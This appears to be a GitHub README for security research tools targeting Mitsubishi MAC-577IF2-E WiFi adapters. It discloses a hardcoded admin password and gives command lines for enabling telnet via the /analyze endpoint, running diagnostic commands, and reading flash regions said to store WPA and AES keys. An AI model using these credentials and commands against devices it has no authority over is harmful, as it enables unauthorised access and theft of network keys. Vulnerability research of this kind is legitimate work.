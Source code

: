# MAC-577IF2-E Analysis Tools

A collection of tools for analyzing and extracting firmware from Mitsubishi MAC-577IF2-E WiFi adapters.

Based on research from: https://github.com/ncaunt/meldec/issues/2

## Overview

These tools leverage discovered vulnerabilities to:
- Access admin HTTP endpoints using known credentials
- Enable telnet access via the `/analyze` endpoint  
- Execute diagnostic commands via telnet
- Extract firmware from flash memory
- Handle device crashes and recovery automatically

## Known Working Credentials

- **Admin**: `admin:me1debug@0567`
- **User**: `user:[KEY from device label]`

## Tools

### 1. mac577if2e_cli.py - Comprehensive CLI Tool

Interactive command-line interface for device exploration.

**Basic Usage:**
```bash
# Test connectivity
python3 mac577if2e_cli.py 192.168.0.54 test

# Scan all known HTTP endpoints
python3 mac577if2e_cli.py 192.168.0.54 scan

# Enable telnet access
python3 mac577if2e_cli.py 192.168.0.54 enable-telnet

# Execute telnet commands
python3 mac577if2e_cli.py 192.168.0.54 telnet "p"
python3 mac577if2e_cli.py 192.168.0.54 telnet "flash sector read=0,32"

# Query device info
python3 mac577if2e_cli.py 192.168.0.54 info

# Read flash memory
python3 mac577if2e_cli.py 192.168.0.54 flash --offset 0x0 --size 32
python3 mac577if2e_cli.py 192.168.0.54 flash --offset 0xe7 --size 32

# Scan flash for interesting data
python3 mac577if2e_cli.py 192.168.0.54 scan-flash --start 0x0 --end 0x1000

# Generate comprehensive device summary
python3 mac577if2e_cli.py 192.168.0.54 summary

# Query specific HTTP endpoint
python3 mac577if2e_cli.py 192.168.0.54 endpoint /analyze
python3 mac577if2e_cli.py 192.168.0.54 endpoint /analyze --method POST --data "debugStatus=ON"
```

### 2. mac577if2e_robust_extractor.py - Firmware Extraction

Robust firmware extraction with automatic crash recovery.

**Basic Usage:**
```bash
# Quick device info extraction
python3 mac577if2e_robust_extractor.py 192.168.0.54 --quick

# Extract firmware (small range for testing)
python3 mac577if2e_robust_extractor.py 192.168.0.54 --start 0x0 --end 0x1000 --output test_firmware.bin

# Full firmware extraction (may take a while)
python3 mac577if2e_robust_extractor.py 192.168.0.54 --start 0x0 --end 0x100000 --output full_firmware.bin

# Custom sector size
python3 mac577if2e_robust_extractor.py 192.168.0.54 --start 0x0 --end 0x10000 --size 64
```

### 3. mac577if2e_firmware_reader.py - Interactive Extraction

Original interactive firmware reader with updated credentials.

**Usage:**
```bash
python3 mac577if2e_firmware_reader.py 192.168.0.54
```

### 4. mac577if2e_test.py - Basic Testing

Simple connectivity and endpoint testing.

**Usage:**
```bash
python3 mac577if2e_test.py 192.168.0.54 me1debug@0567
```

## Known Telnet Commands

The following telnet commands are known to work:

### System Information
- `p` - Process and memory information (most reliable)
- `ver` - Version information
- `mac` - MAC address
- `date` - System date
- `mem` - Memory information
- `fmem` - Free memory

### Flash Memory Access
- `flash sector read=0,32` - Read 32 bytes from offset 0
- `flash sector read=c4,32` - Read configuration area
- `flash sector read=e7,32` - Read AES key area
- `flash sector read=ba,32` - Read WPA key area

### Debug Commands
- `debug info` - Debug information
- `soc` - Socket information
- `fs_dir` - Filesystem directory
- `fs_df` - Filesystem disk usage

## Important Notes

### Device Behavior
- The device may crash/reset after executing telnet commands
- Telnet access requires enabling via `/analyze` endpoint first
- Use `\r` line endings for telnet commands (not `\r\n`)
- Commands should be sent quickly after establishing telnet connection

### Security Considerations
- These tools exploit known vulnerabilities
- Only use on devices you own or have permission to test
- The admin credentials appear to be hardcoded in the firmware
- Device may log access attempts

### Flash Memory Layout
Based on research, interesting areas include:
- `0x0` - Firmware start
- `0xba` - WPA key storage
- `0xc4` - Domain name configuration  
- `0xc8` - ECHONET flag
- `0xe7` - AES key storage

## Examples

### Quick Device Assessment
```bash
# Test if device is accessible
python3 mac577if2e_cli.py 192.168.0.54 test

# Enable telnet and get basic info
python3 mac577if2e_robust_extractor.py 192.168.0.54 --quick
```

### Flash Memory Analysis
```bash
# Read firmware header
python3 mac577if2e_cli.py 192.168.0.54 flash --offset 0x0 --size 64

# Check for stored keys
python3 mac577if2e_cli.py 192.168.0.54 flash --offset 0xba --size 32
python3 mac577if2e_cli.py 192.168.0.54 flash --offset 0xe7 --size 32

# Scan for interesting data
python3 mac577if2e_cli.py 192.168.0.54 scan-flash --start 0x0 --end 0x2000
```

### Full Firmware Extraction
```bash
# Extract first 64KB (most important firmware sections)
python3 mac577if2e_robust_extractor.py 192.168.0.54 --end 0x10000 --output firmware_64k.bin

# Extract larger sections (will take longer)
python3 mac577if2e_robust_extractor.py 192.168.0.54 --end 0x100000 --output firmware_1mb.bin
```

## Troubleshooting

### Connection Issues
- Ensure device IP is correct
- Check that device is powered on and network accessible
- Verify admin credentials are working

### Telnet Issues  
- Device may have crashed - wait 30 seconds for recovery
- Re-enable telnet via: `python3 mac577if2e_cli.py 192.168.0.54 enable-telnet`
- Try smaller command sets to avoid overwhelming device

### Extraction Issues
- Use smaller end offsets for testing
- The robust extractor handles crashes automatically
- Check partial files (`.partial`) if extraction is interrupted

## Research Credit

This work is based on extensive research documented in:
https://github.com/ncaunt/meldec/issues/2

Special thanks to the researchers who discovered:
- The admin credential vulnerabilities
- Telnet activation via `/analyze` endpoint
- Flash reading commands and memory layout
- Line ending issues with telnet protocol
